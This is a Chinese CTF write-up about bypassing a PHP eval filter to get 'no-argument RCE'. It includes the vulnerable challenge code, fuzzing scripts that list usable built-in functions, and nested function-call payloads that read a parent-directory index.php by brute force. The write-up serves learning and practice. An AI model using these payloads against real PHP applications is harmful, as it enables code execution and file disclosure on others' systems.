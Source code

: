 

# 从一道 CTF 题学习 Fuzz 思想 - 先知社区

从一道 CTF 题学习 Fuzz 思想

- - -

## 前言

​ 最近参加了两个 CTF 比赛，都遇到了无参数 RCE 的问题。第一次遇到虽然没解出来，但是为第二次比赛遇到做了基础铺垫，第二次也迎刃而解，同时这次比赛也学到了很多 fuzz 的方法和思路，在这里做个总结。

## 题目

```plain
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}else {
        echo "No way!!!";
    }
```

-   **题目分析**
    
    -   从题目第一个正则（`[a-z]+\((?R)?\)`）只匹配`字符串+（）`的类型，并且括号内为空字符串仅可以由 26 个小写字母组成。我们再看代码，`preg_replace()`函数对匹配成功的字符串替换为 NUILL，如果剩下的职业`(;)`那么就会通过这个正则。我们用一个代码来测试，我们传两个参数然后对这两个参数进行替换后打印看剩下的是什么值，就能很直观的看到这一点。

[![](assets/1698897274-44a6314529acac406120a74068b85b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141911-d86da824-02b8-1.png)

[![](assets/1698897274-21d0b6b801aa4237be9a720cbf3202ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141915-da9ebe12-02b8-1.png)

-   我们分别传入了`echo();`、`echo(122);`和`echo(phpinfo())`,可以看到参数一最终替换剩下一个`(;)`分号，而参数二无法匹配成功替换失败，参数三是 echo 嵌套一个 phpinfo 函数，同样匹配成功替换剩下一个`(;)`分号。那么这里就说明了我们这个正则虽然不能能够匹配存在参数的函数，但是可以嵌套函数使用。
    
-   题目第二个正则`(readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log)`过滤了哪些函数呢，这个我们可以直接编写两个脚本进行 FUZZ，第一个脚本可以获取 PHP 中所有内置函数，将它写到一个文本文件中。第二个 python 脚本则是匹配能够使用的函数，并将其打印出来，这样一来我们就知道有哪些函数能够为我们所用。
    
    -   获取 PHP 内置函数
    
    ```plain
    <?php
    $a = get_defined_functions()['internal'];
    $file = fopen("function.txt","w+");
    foreach ($a as $key ) {
     echo fputs($file,$key."\r\n");
    }
    fclose($file);
    ?>
    ```
    
    -   查找能使用的函数
    
    ```plain
    import re
    f = open('function.txt','r')
    for i in f:
        function = re.findall(r'/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/',i) 
        if function == [] and not '_' in i:
            print(i)
    ```
    

-   **构造 payload-解决问题**
    
    -   首先题目出题人用了他工地英语 (开个玩笑) 提示了我们 flag 在上层目录下的`index.php`，那我们就需要读取上层目录下的`index.php`的源码，我们知道`scandir()`函数式能够读取源码，但是他必须带有参数`（'.'）`也就是`scandir('.')`，在不断阅读函数中我发现`uniqid()`函数能够生成动态的字符串，但是他前半部分是固定不变的，但是后半部分是动态变化的，正好`strrev()`函数也可以使用那么，我们就可以将它翻转过来然后直接转换转换为 char 不久可以动态构造任意字符了吗？发现这点，我立刻写了个脚本去验证我的想法。
        
        ```plain
        <?php
        error_reporting(0);
        for($i=0;$i<1000;$i++)
        echo(chr(strrev(uniqid())));
        ?>
        ```
        

[![](assets/1698897274-05ea2f5e12f51b9e89e934ab78df2fe2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141927-e1f90fdc-02b8-1.png)

-   从脚本的运行结果来看已经达到了预期目的，生成了`(.)`点，那么我们通过条件竞争就可以达到预期目的。那么我们构造如下 payload 去读取文件目录看是否能成功，由于 scandir 返回的是数组，并且 var\_dump 是无法通过第一个正则的，所以我们可以使用`implode()`将数组转换为字符串在`echo()`打印出来。
    
    ```plain
    echo(implode(scandir(chr(strrev(uniqid())))));
    ```
    
-   我们传参后使用 burpsuite 进行条件竞争，可以看到成功获取文件目录。
    

[![](assets/1698897274-f5425219da20f76779dff8a5544d033e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141937-e7c28704-02b8-1.png)

-   那么问题又来了，我们该如何去读取上层目录的 index.php 呢？首先我们要读取上层目录的文件，必须先跳转到上层目录，这里我们从我们脚本匹配的结果看`chdir()`函数并未被过滤，所以我们可以使用它先跳转到上层目录再去读取文件，但是要跳转到上层目录需要构造两个点即`chdir('..')`那么该如何构造呢，其实很简单，我们看上方返回了当前目录下的文件列表，其实它是返回来了一个数组，这个数组结构如下：
    
    ```plain
    [0=>'.',1=>'..',3=>'index.php']
    ```
    
-   我们可以发现第二个元素就是两个点，我们可以使用`next()`函数去获取到这两个点。我们先根据此读取到上层目录列表构造 payload 如下：
    
    ```plain
    echo(implode(scandir(next(scandir(chr(strrev(uniqid())))))));
    ```
    
-   传入这个 payload 再使用 burpsuite 进行条件竞争，可以发现已经读取了上层目录列表。
    

[![](assets/1698897274-35cd9f3520bdc289dedb579d576a9af1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141956-f310edc6-02b8-1.png)

-   可以发现 index.php 是在这个目录列表数组中的最后一个元素，那么我们要读取这个文件名直接读取这个数组中的最后一个元素即可，这里我们可以使用`end()`函数获取，我们先跳转到上个目录：
    
    ```plain
    chdir(next(scandir(chr(strrev(uniqid())))))
    ```
    
-   读取文件呢，我们可以使用第一个 payload 读取到文件目录，然后使用 end() 函数去读取最后一个元素，进而读取文件这里我们使用 file() 函数去读取文件。
    
    ```plain
    file(end(scandir(chr(strrev(uniqid()))))
    ```
    
-   那么综合起来 payload 如下：
    
    ```plain
    echo(implode(file(end(scandir(chr(strrev(uniqid(chdir(next(scandir(chr(strrev(uniqid())))))))))))));
    ```
    
-   但是这里存在一个问题，那就是两次去的值不一定都是点，那么就需要进行 N 次爆破，在某一时刻这两个值都取到点的时候那么就会读取成功。
    

[![](assets/1698897274-60f0bad68ca22c2bbbaf34a2210bb40f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109142009-facfa9da-02b8-1.png)

-   当然最后官方 payload 是使用三角函数去算出这个点，但是这里主要是将以下我个人的想法，也希望这道题的解题思路，可以帮助到其他人。

## 总结

-   这道题可以说是上次`ByteCTF-boringcode`的 plus，但是题目不在多更多的是要掌握 Fuzz 的方法，从这次比赛中我也了解到了无参数函数的利用，其实无参数 RCE 的用法很多师傅都做了很多总结，但是我们在遇到问题时候可能出题人已经将这些网上公开的方法给 ben 掉了，这时候就需要我们去 Fuzz 去分析。
